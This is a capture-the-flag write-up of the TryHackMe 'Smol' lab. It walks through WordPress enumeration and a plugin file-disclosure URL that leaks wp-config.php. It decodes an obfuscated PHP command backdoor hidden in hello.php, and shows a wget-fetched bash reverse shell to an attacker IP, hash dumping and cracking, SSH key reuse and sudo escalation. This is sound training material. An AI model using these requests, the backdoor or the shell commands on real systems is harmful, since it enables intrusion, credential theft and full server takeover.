# TryHackMe - Smol Writeup

## Overview

Smol is a WordPress-based TryHackMe room where I gained initial access through a vulnerable plugin, achieved remote code execution, performed lateral movement across multiple user accounts, and ultimately obtained root access through privilege escalation techniques.

## Enumeration

I started the assessment by performing a basic Nmap scan against the target host to identify open ports and running services.

```bash
nmap -sV smol.thm
```

The scan revealed two interesting services:

- SSH (22/tcp)
- HTTP (80/tcp)

Since a web service was exposed, I proceeded with web enumeration to identify potential attack vectors.



After identifying an HTTP service running on the target, I performed directory enumeration to discover accessible resources and hidden content.

```
dirb http://www.smol.thm -w /usr/share/wordlists/dirb/common.txt
```

The following interesting resources were identified during directory enumeration:

```
http://www.smol.thm/index.php            (Status: 301)
http://www.smol.thm/server-status        (Status: 403)
http://www.smol.thm/wp-admin/            (Status: 301)
http://www.smol.thm/wp-content/          (Status: 301)
http://www.smol.thm/wp-includes/         (Status: 301)
http://www.smol.thm/xmlrpc.php           (Status: 405)
```

The discovered directories confirmed that the target was running a WordPress installation. Based on this finding, I proceeded with WordPress-specific enumeration using WPScan.

After confirming that the target was running WordPress, I used WPScan to enumerate users, plugins, themes, and potential vulnerabilities.

```
wpscan --url http://www.smol.thm -e ap,at,u --api-token <REDACTED>
```

The scan identified the **JSmol2WP** plugin running on the target. Further investigation revealed that the plugin was affected by a known **Server-Side Request Forgery (SSRF)** vulnerability.

This finding was particularly interesting because SSRF vulnerabilities can sometimes be abused to access internal resources or disclose sensitive files. Since a publicly available exploit was available for this vulnerability, I decided to investigate the affected endpoint further.

The WPScan results identified multiple vulnerabilities affecting the JSmol2WP plugin, including both **Cross-Site Scripting (XSS)** and **Server-Side Request Forgery (SSRF)** vulnerabilities.

While both findings were noteworthy, the SSRF vulnerability appeared to be the most promising attack vector because it had the potential to disclose sensitive files from the server. As a result, I focused my efforts on investigating and exploiting the SSRF vulnerability.



## Vulnerability Research

After identifying the SSRF vulnerability in the JSmol2WP plugin, I conducted further research to better understand its impact and exploitation method.

During my research, I found a WPScan vulnerability entry describing how the vulnerable endpoint could be abused to read arbitrary files from the server. The provided information included a proof-of-concept demonstrating local file disclosure through the vulnerable `query` parameter.

This research provided a clear path for exploitation and guided the next phase of the assessment.



## Initial Access

### Exploiting the SSRF Vulnerability

After identifying the SSRF vulnerability in the JSmol2WP plugin, I began testing the vulnerable endpoint to determine whether it could be used to access sensitive files on the server.

```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php
```

The request successfully disclosed the contents of the WordPress configuration file (`wp-config.php`). This file contained sensitive information, including database credentials and configuration details.

The disclosure of this file confirmed that the SSRF vulnerability could be abused to access local files on the server and provided valuable information for further exploitation.



### WordPress Administration Access

After obtaining sensitive information through the SSRF vulnerability, I continued investigating the WordPress installation and gained access to the administrative dashboard.

Once authenticated, I began reviewing the available pages, posts, and administrative content for additional clues that could assist in further exploitation.



### Discovering the Webmaster Tasks Page

While reviewing the WordPress content, I discovered a page named **Webmaster Tasks**. The page contained notes intended for administrators and included an interesting reference to the **Hello Dolly** plugin.

The note suggested reviewing the plugin's source code, which appeared unusual and warranted further investigation.





### Investigating the Hello Dolly Plugin

Hello Dolly is a default WordPress plugin that is commonly included with WordPress installations. The plugin is generally harmless and simply displays random lyrics from the song *Hello, Dolly!* in the WordPress administration panel.

Since the Webmaster Tasks note specifically referenced the Hello Dolly plugin, I decided to examine it more closely for any unusual functionality.

I first attempted to access the plugin file directly through the web server:

```
http://www.smol.thm/wp-content/plugins/hello.php
```

However, the request did not return any useful information. As the SSRF vulnerability was still available, I reused the vulnerable endpoint to read the plugin source code directly from the server.

```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../hello.php
```

This successfully disclosed the contents of the Hello Dolly plugin source code. While reviewing the file, I noticed a Base64-encoded payload embedded within the plugin, suggesting the presence of hidden functionality.



Base64-encoded payload:

```
CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKSk7IH0=
```

To understand its functionality, I decoded the payload using CyberChef. The decoded output was:

```
if (isset($_GET["\143\155\x64"])) {
    system($_GET["\143\x6d\144"]);
}
```

The parameter names were obfuscated using octal and hexadecimal character encoding. After decoding the values:

```
\143\155\x64  → cmd
```

The code checks whether the `cmd` parameter is supplied in the URL and, if present, passes its value directly to the PHP `system()` function.

This means an attacker can execute arbitrary operating system commands by supplying a `cmd` parameter, effectively creating a backdoor that provides remote command execution (RCE).

### Remote Code Execution

After identifying the hidden backdoor functionality, I tested it by supplying a command through the `cmd` parameter.

```
http://www.smol.thm/wp-admin/index.php?cmd=id
```

The application successfully executed the command and returned the output of the `id` utility.


This confirmed that arbitrary operating system commands could be executed on the target server through the backdoored plugin, resulting in remote code execution.

### Obtaining a Reverse Shell

To gain interactive access to the target system, I created a simple Bash reverse shell script:

```bash
#!/bin/bash
sh -i >& /dev/tcp/<ATTACKER_IP>/<PORT> 0>&1
```

The script was saved as `rev.sh` and hosted using a Python HTTP server on the attacking machine.

```
python3 -m http.server 8000
```

Using the command execution vulnerability, I instructed the target to download the script:

```
http://www.smol.thm/wp-admin/index.php?cmd=wget+http://<ATTACKER_IP>:8000/rev.sh
```

After the file was downloaded, appropriate permissions were assigned to make it executable:

```
http://www.smol.thm/wp-admin/index.php?cmd=chmod+777+rev.sh
```

A Netcat listener was then started on the attacking machine:

```
nc -lvnp <PORT>
```

Finally, the reverse shell script was executed through the vulnerable endpoint, resulting in a successful connection back to the listener and providing an interactive shell as the `www-data` user.

## Post-Exploitation

### Database Enumeration

After obtaining a reverse shell as the `www-data` user, I returned to the database credentials that were previously disclosed from the `wp-config.php` file.

Using those credentials, I connected to the local MySQL service from the compromised host:

```
mysql -u wpuser -p
```

After authentication, I listed the available databases and identified the WordPress database:

```
SHOW DATABASES;
```

```
information_schema
mysql
performance_schema
sys
wordpress
```

I then selected the WordPress database and enumerated its tables:

```
USE wordpress;
SHOW TABLES;
```

The `wp_users` table was particularly interesting because it stores WordPress user account information and password hashes. Querying this table revealed multiple users:

```
SELECT user_login,user_pass FROM wp_users;
```

```
admin : $P$BH.CF15fzRj4li7nR19CHzZhPmhKdX.
wpuser: $P$BfZjtJpXL9gBwzNjLMTnTvBVh2Z1/E.
think : $P$BOb8/koi4nrmSPW85f5KzM5M/k2nOd/
gege  : $P$B1UHruCd/9bGD.TtVZULlxFrTsb3PX1
diego : $P$BWFBcbXdzGrsjnbc54Dr3Erff4UPwv1
xavi  : $P$BB4zz2JEnM2RHs3q18.1pvcql1
```

These hashes were extracted and prepared for offline password cracking to identify valid credentials for lateral movement.

### Password Hash Cracking

To recover valid credentials, I attempted to crack the extracted password hashes using John the Ripper and the RockYou wordlist.

```
john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

The attack successfully recovered credentials for the `diego` account, providing an opportunity to move beyond the restricted `www-data` context and continue enumerating the target from a legitimate user account.



### Lateral Movement

Using the recovered credentials, I authenticated as `diego` and continued enumerating the system.

During enumeration, I discovered an SSH private key stored within the home directory of the user `think`. Since SSH keys can often be used for lateral movement, I copied the key to my attacking machine, adjusted its permissions, and authenticated as `think` via SSH.

```
chmod 600 think_id_rsa
ssh -i think_id_rsa think@smol.thm
```

Successfully accessing the `think` account provided a new security context and exposed additional opportunities for privilege escalation.



While enumerating the system as `think`, I discovered a custom PAM configuration file.

Reviewing the configuration revealed authentication rules that allowed members of the `think` group to switch to the `gege` account without requiring a password.



By leveraging this misconfiguration, I was able to pivot directly to the `gege` user:

```
su gege
```

This provided access to another user account and allowed me to continue enumerating the system from a new security context.

### Backup Discovery and Credential Recovery

After pivoting to the `gege` account, I continued enumerating the system in search of additional privilege escalation opportunities.

During this process, I discovered a backup archive named `wordpress.old.zip`. Backup files are often valuable targets during post-exploitation because they may contain historical source code, configuration files, credentials, or other sensitive information that is no longer exposed through the live application.

Suspecting that the archive could contain useful information, I transferred it to my attacking machine for offline analysis. The archive was password protected, so I extracted its hash using `zip2john` and attempted to recover the password with John the Ripper.

```bash
zip2john wordpress.old.zip > zip_hash.txt
john zip_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

The password was successfully recovered, allowing the archive contents to be extracted and reviewed.



Analysis of the extracted files revealed an older WordPress installation, including a `wp-config.php` file. As WordPress configuration files commonly store database credentials, I reviewed the file and identified credentials associated with another local user account.

These credentials were later used to gain access to the `xavi` account and continue the attack chain.



### Accessing the Xavi Account

Using the credentials recovered from the backup archive, I successfully authenticated as the `xavi` user and continued enumerating the system.

As part of the privilege escalation process, I reviewed the user's sudo permissions:

```
sudo -l
```

The output revealed that `xavi` was permitted to execute commands as any user via sudo.

```
User xavi may run the following commands on <hostname>:
    (ALL) ALL
```

This configuration effectively granted full administrative access to the system.

## Privilege Escalation

### Root Access

Since the `xavi` account possessed unrestricted sudo privileges, obtaining root access was straightforward.

```
sudo su
```

After spawning a root shell, I verified the elevated privileges and gained complete control over the target system.


